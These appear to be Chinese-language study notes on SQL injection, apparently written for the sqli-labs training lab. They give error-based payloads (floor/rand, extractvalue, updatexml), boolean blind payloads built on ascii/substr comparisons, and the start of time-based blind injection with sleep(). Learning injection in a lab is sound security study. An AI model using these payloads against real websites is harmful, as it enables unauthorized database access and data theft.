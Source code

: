 

```sql
爆出库名
index.php?id=2' AND (select 1 from (select count(*),concat(0x3a,0x3a,(database()),0x3a,0x3a,floor(rand()*2))a from information_schema.tables group by a)b) --+

爆出表名
index.php?id=2' AND (select 1 from (select count(*),concat(0x3a,0x3a,(select table_name from information_schema.tables where table_schema='security' limit 0,1),0x3a,0x3a,floor(rand()*2))a from information_schema.tables group by a)b) --+
```



----------

简单高效：

' and extractvalue(1,concat(0x7e,(database()),0x7e)) --+

' and updatexml(1,concat(0x7e,(database()),0x7e),1) --+

布尔型注入:

你觉得这个地方进行了数据库查询，但是没有显示位，但是报错不会出现信息，错误和正确页面有区别

靠猜
=======================================================
?id=2' and 0 --+
?id=2' and 1<2 --+
判断一下后面是否可以夹带私货

小知识：
select length(database());
取出数据库库名，并且判断有几个字

select substr(database(),1,1);
截取数据库库名，从第1个字开始截取，截取1个

select ascii(substr(database(),1,1));
截取出来的字，使用ascii码编码

select ascii(substr(database(),1,1)) < 100;

实战：
id=1' and (select ascii(substr(database(),1,1))) < 115 --+

走流程
id=1' and (select ascii(substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1))) < 115 --+

=====================================================

布尔型时间盲注：

你觉得这个地方进行了数据库查询，但是没有显示位，但是报错不会出现信息，错误也不会告诉你

select sleep(5);
睡个5s
